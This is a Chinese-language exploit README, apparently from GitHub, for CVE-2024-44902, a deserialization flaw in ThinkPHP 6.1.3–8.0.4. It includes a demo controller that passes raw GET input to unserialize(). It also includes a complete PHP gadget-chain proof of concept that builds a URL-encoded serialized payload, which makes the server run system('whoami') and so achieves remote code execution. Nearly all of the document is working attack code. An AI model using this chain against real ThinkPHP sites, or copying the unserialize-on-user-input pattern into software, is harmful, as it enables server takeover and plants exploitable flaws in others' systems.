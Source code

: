 # thinkphp最新CVE-2024-44902反序列化漏洞

Thinkphp v6.1.3 至 v8.0.4 中存在反序列化漏洞，允许攻击者执行任意代码。

## demo

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['x']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

    public function hello($name = 'ThinkPHP8')
    {
        return 'hello,' . $name;
    }
}

```

## poc

```php
<?php
namespace think\cache\driver;
use think\model\Pivot;
class Memcached{
    protected $options=[];
    function __construct()
    {
        $this->options["username"]=new Pivot();
    }
}

namespace think\model;
use think\model;
class Pivot extends Model
{

}

namespace think;
abstract class Model{
    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    function __construct()
    {
        $this->data["fru1ts"]=["whoami"];
        $this->withAttr["fru1ts"]=["system"];
        $this->json=["fru1ts"];
    }
}

namespace think\route;
use think\DbManager;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new DbManager();
    }
}
namespace think;
use think\model\Pivot;
class DbManager
{
    protected $instance = [];
    protected $config = [];
    function __construct()
    {
        $this->config["connections"]=["getRule"=>["type"=>"\\think\\cache\\driver\\Memcached","username"=>new Pivot()]];
        $this->config["default"]="getRule";
    }
}

use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

![image-20240916205334112](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409162053192.png)



## 漏洞来源

- https://github.com/fru1ts/CVE-2024-44902
- https://xz.aliyun.com/t/15582